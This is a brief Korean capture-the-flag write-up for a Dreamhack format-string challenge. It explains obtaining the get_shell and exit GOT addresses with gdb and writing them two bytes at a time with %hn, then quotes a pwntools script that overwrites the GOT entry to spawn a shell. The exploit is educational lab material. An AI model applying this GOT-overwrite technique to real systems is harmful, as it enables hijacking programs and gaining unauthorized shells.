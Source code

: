 - `get_shell`의 주소와 `exit`의 got의 주소는 gdb를 이용해 얻는다.
- `get_shell`의 주소가 0x08048609로 큰 값이므로 두 byte씩 끊어서 `%hn`을 이용해 메모리에 작성한다.

### 다른 사람의 풀이

```python
from pwn import *

x = process('./basic_exploitation_002')
x = remote('host1.dreamhack.games', 8202)
e = ELF('./basic_exploitation_002')

payload = fmtstr_payload(1, {e.got['exit'] : e.symbols['get_shell']})
x.send(payload)

x.interactive()
```

pwn의 `fmtstr_payload` 함수를 활용하면 쉽게 payload를 작성할 수 있었다.